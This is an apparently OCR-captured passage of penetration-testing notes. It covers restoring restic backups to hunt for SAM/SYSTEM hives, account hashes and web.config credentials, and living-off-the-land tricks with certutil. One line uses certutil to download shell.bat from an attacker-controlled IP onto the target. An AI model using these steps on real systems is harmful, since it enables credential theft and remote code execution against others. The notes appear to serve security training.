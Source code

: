 ```

        
        Note: If the user doesn't have the rights to access or copy the content of a directory, we may get an Access denied message. The backup will be created, but no content will be found.

        We can also check which backups are saved in the repository using the shapshot command.

        
        -restic - Check Backups Saved in a Repository

        PS C:\> restic.exe -r E:\restic2\ snapshots



        -restic - Restore a Backup with ID

        We can restore a backup using the ID the snapshot command showed

        PS C:\> restic.exe -r E:\restic2\ restore 9971e881 --target C:\Restore

        If we navigate to C:\Restore, we will find the directory structure where the backup was taken. To get to the SampleFolder directory, we need to navigate to C:\Restore\C\SampleFolder.

        If we are targeting a Windows backup, we may want to look for the SAM & SYSTEM hive to extract local account hashes. We can also identify web application directories and common files where credentials or sensitive information is stored, such as web.config files. Our goal is to look for any interesting files that can help us archive our goal.

        



                        //Miscellanious Techniques




                --Living Off The Land Binaries and Scripts (LOLBAS)
        
        The LOLBAS project documents binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems. Each of these binaries, scripts and libraries is a Microsoft-signed file that is either native to the operating system or can be downloaded directly from Microsoft and have unexpected functionality useful to an attacker. 

        
        -Transferring File with Certutil


        One classic example is certutil.exe, whose intended use is for handling certificates but can also be used to transfer files by either downloading a file to disk or base64 encoding/decoding a file.

        PS C:\> certutil.exe -urlcache -split -f http://10.10.14.3:8080/shell.bat shell.bat

        
        -Encoding File with Certutil

        We can use the -encode flag to encode a file using base64 on our Windows attack host and copy the contents to a new file on the remote system.

        C:\> certutil -encode file1 encodedfile


```